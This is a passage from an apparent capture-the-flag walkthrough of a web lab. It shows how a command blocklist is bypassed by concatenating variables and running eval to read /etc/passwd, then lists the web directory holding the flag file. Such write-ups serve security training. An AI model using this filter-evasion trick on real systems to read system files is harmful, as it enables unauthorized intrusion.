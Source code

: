 That's easily bypassed though. We can construct a command string by contcatenating strings together like this:

```console
var1="c"; var2="at"; eval "$var1$var2 /etc/passwd"
```

And it works perfectly.

![/etc/passwd file contents](/assets/img/20211228225015.png)

### First Ingredient

Let's see what's in the web directory (`ls /var/www/html`).

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
